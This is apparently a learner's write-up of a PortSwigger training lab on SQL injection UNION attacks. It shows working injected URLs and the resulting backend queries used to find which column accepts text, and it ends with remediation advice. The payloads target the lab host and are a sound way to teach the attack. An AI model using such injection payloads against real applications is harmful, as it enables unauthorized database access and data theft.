


# Lab: SQL Injection UNION Attack, Finding a Column Containing Text

> **Platform:** PortSwigger Web Security Academy  
> **Module:** SQL Injection  
> **Lab:** SQL injection UNION attack, finding a column containing text  
> **Lab Link:** https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-finding-columns-with-a-useful-data-type/sql-injection/union-attacks/lab-find-column-containing-text  
> **Goal:** Perform a SQL injection UNION attack that returns an additional row containing the value provided by the lab.

---

## 1. Lab Goal

The goal of this lab was to identify which column returned by the backend SQL query supports text/string data, and then use a SQL injection `UNION` attack to append the lab-provided string (`'q4k5Pv'`) into that column so it is reflected in the response.

---

## 2. Given Information

The lab gave the following information:

- The application contains a SQL injection vulnerability in the product category filter.
- The results from the query are returned in the application's response, allowing the use of a `UNION` attack.
- From the previous lab, we already know that the returning table has **3 columns** (or we can determine this using `UNION SELECT NULL,NULL,NULL--`).
- To solve the lab, we need to make the database retrieve and display the provided string: `'q4k5Pv'`.

---

## 3. Vulnerability Summary

The application concatenates the user-supplied `category` parameter from the URL query string directly into a backend `SELECT` SQL query without sanitization or parameterization. For a `UNION` query to succeed, both the number of columns and the data types of each corresponding column must match between the original query and the injected query. By systematically replacing each `NULL` placeholder with a test string (`'q4k5Pv'`), an attacker can determine which column accepts string data and use it to render arbitrary text on the page.

---

## 4. Observation

When filtering the products by the `Lifestyle` category, the URL looks like this:

```text
https://0a0d00bb04c8370a80d8210c00850020.web-security-academy.net/filter?category=Lifestyle
```

In the backend database, this parameter is likely being parsed inside a query like:

```sql
SELECT * FROM Products WHERE category = 'Lifestyle'
```



Since we know from the previous lab that the query returns **3 columns**, we just need to test each column one by one to see which one supports a string data type.

---

## 5. Initial Testing (Probing Column Data Types)

To find out which of the 3 columns accepts text, I started by injecting a `UNION SELECT` statement with two `NULL` values and the target string `'q4k5Pv'` placed in the third column position:

```text
https://0a0d00bb04c8370a80d8210c00850020.web-security-academy.net/filter?category=Lifestyle'%20UNION%20SELECT%20Null,Null,'q4k5Pv'%20--
```

This generated the following backend SQL query:

```sql
SELECT * FROM Products WHERE category = 'Lifestyle' UNION SELECT Null,Null,'q4k5Pv' --'
```

When I sent this request, an **Internal Server Error** occurred. This indicated that the third column's data type (likely an integer or decimal, such as price) is not compatible with string data.

---

## 6. Exploiting the Vulnerability

Since the third column threw an error, I moved the string `'q4k5Pv'` one position to the left (into the second column) and set the third column back to `Null`:

```text
https://0a0d00bb04c8370a80d8210c00850020.web-security-academy.net/filter?category=Lifestyle'%20UNION%20SELECT%20Null,'q4k5Pv',Null%20--
```

This generated the following backend SQL query:

```sql
SELECT * FROM Products WHERE category = 'Lifestyle' UNION SELECT Null,'q4k5Pv',Null --'
```

This time, the query executed without any errors and successfully appended the result `'q4k5Pv'` to the product list on the page, solving the lab.



---

## 7. Correct Testing Approach

1. Determine the number of columns returned by the original query using `ORDER BY` or `UNION SELECT NULL,NULL,...--` (in this case, 3 columns).
2. Replace one `NULL` at a time with the target string (e.g., `'q4k5Pv'`).
3. If the server returns an `Internal Server Error`, the tested column's data type is incompatible with strings; revert it to `NULL` and test the next column.
4. When the page returns `200 OK` and displays the injected string, you have identified a string-compatible column that is rendered in the response.

---

## 8. Exploitation Steps

1. Selected the `Lifestyle` category filter and observed the `/filter?category=Lifestyle` URL.
2. Knowing the query returns 3 columns, injected `' UNION SELECT Null,Null,'q4k5Pv' --` to test the 3rd column for string compatibility.
3. Observed an `Internal Server Error`, confirming column 3 does not accept string values.
4. Shifted the string one position to the left to test the 2nd column: `' UNION SELECT Null,'q4k5Pv',Null --`.
5. Observed the string `q4k5Pv` appended to the page results, solving the lab.

---

## 9. Evidence

### Failed Attempt (Column 3 - Incompatible Data Type)

**Request URL:**
```text
https://0a0d00bb04c8370a80d8210c00850020.web-security-academy.net/filter?category=Lifestyle'%20UNION%20SELECT%20Null,Null,'q4k5Pv'%20--
```

**Resulting Backend SQL Query:**
```sql
SELECT * FROM Products WHERE category = 'Lifestyle' UNION SELECT Null,Null,'q4k5Pv' --'
```

**Response:**
```text
500 Internal Server Error
```

### Working Exploit Payload (Column 2 - String Compatible)

**Request URL:**
```text
https://0a0d00bb04c8370a80d8210c00850020.web-security-academy.net/filter?category=Lifestyle'%20UNION%20SELECT%20Null,'q4k5Pv',Null%20--
```

**Resulting Backend SQL Query:**
```sql
SELECT * FROM Products WHERE category = 'Lifestyle' UNION SELECT Null,'q4k5Pv',Null --'
```

**Response:**
```text
200 OK (String 'q4k5Pv' displayed on the page)
```

---

## 10. Why This Worked

In SQL, a `UNION` operator requires that corresponding columns across all combined `SELECT` queries have compatible data types. Because `NULL` is convertible to any data type, keeping two columns as `NULL` while placing `'q4k5Pv'` into a single column isolates the data type check to that specific column. 

When `'q4k5Pv'` was placed in the 3rd column (which likely holds numeric data such as product price or ID), the database threw a type conversion error, resulting in an `Internal Server Error`. When `'q4k5Pv'` was moved to the 2nd column (which holds the product name/text), the string data type matched the column's `VARCHAR`/`TEXT` type, allowing the query to succeed and render the string on the page.

---

## 11. Remediation / Fix

To prevent SQL injection vulnerabilities, the application should:

- **Use Parameterized Queries (Prepared Statements):** Pass the `category` filter parameter as a bound parameter so user input cannot break out of the string literal or inject `UNION SELECT` statements.
- **Suppress Verbose Database Errors:** Avoid returning unhandled `500 Internal Server Error` responses that help attackers deduce backend query structure and column data types.

---

## 12. Lessons Learned

- After finding the number of columns in a `UNION` attack, you must still identify which columns accept string/text data before you can extract useful information (like usernames and passwords).
- Replacing `NULL` values one by one with a test string is a reliable way to map out column data types.

---

## 13. Final Summary

In this lab, I built upon the 3-column structure discovered in the previous lab to find a column capable of holding text data. I first tested the third column using `UNION SELECT Null,Null,'q4k5Pv' --`, which triggered an `Internal Server Error` due to a data type mismatch. By shifting the target string one position to the left (`UNION SELECT Null,'q4k5Pv',Null --`), the database accepted the string in the second column and rendered `q4k5Pv` on the page, solving the lab.
